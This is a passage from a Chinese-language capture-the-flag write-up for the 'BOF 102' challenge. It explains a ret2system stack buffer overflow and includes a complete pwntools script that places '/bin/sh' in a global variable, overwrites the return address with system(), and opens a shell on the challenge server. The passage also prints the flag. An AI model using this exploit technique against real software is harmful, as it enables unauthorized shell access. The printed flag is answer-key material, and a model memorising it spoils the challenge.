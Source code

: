可以看到這一題也有 buffer overflow 的問題，但沒看到有特別的函式

另外，可以看到並沒有啟用 canary 及 PIE，但是有 NX 保護
![](https://i.imgur.com/3F3NNW7.png)

根據題目的 tutorial guide 可以看到這題是要想辦法執行 `/bin/sh` 並拿到 `/flag` 檔案的內容

可以看到，在這題的 main 處有使用到 `system` 函式，所以代表可以跳到 system 的位置並傳入 `/bin/sh` 給它，即可獲得 shell

根據 x86 架構，需要將 stack 蓋成這樣子:
![](https://i.imgur.com/o1sJyoo.png)

AAAA 的部分為 bofme 的 local variables 及 EBP，而 CCCC 的部分為 system 呼叫後的 return address

system() 的位置可透過 objdump 找到
![](https://i.imgur.com/8vFHH5z.png)
位置是在 `0x080483e0`

而由於 system 的參數只有一個且為 char array 的指標，我們需要找一個地方寫入 `/bin/sh` 並填入這個地方的位置

在程式中，可以看到有 `name` 這個 global variable，且我們可以控制
![](https://i.imgur.com/J1xv7gG.png)
其位置是在 `0x0804a034`

完整腳本如下:
```python=
from pwn import *
context.log_level = "debug"
conn = remote("bof102.sstf.site", 1337)
#conn = process("./bof102")

conn.recvuntil("Name >")
conn.sendline("/bin/sh") # global variable (name)

conn.recvuntil(" >")
payload = b"B" * 16 # payload
payload += b"C" * 4 # EBP of bofme
payload += b"\xe0\x83\x04\x08" # system()
payload += b"D" * 4 # RET of system()
payload += b"\x34\xa0\x04\x08" # addr of global variable (name)
conn.sendline(payload)

conn.interactive()
```

![](https://i.imgur.com/WjJZ3uy.png)

SCTF{5t4ck_c4n4ry_4nd_ASLR_4nd_PIE_4re_l3ft_a5_h0m3wOrk}

## BOF 103
![](https://i.imgur.com/oBlYYEE.png)

和前面一樣，題目給了 `bof103` `bof103.c` 這二個檔案
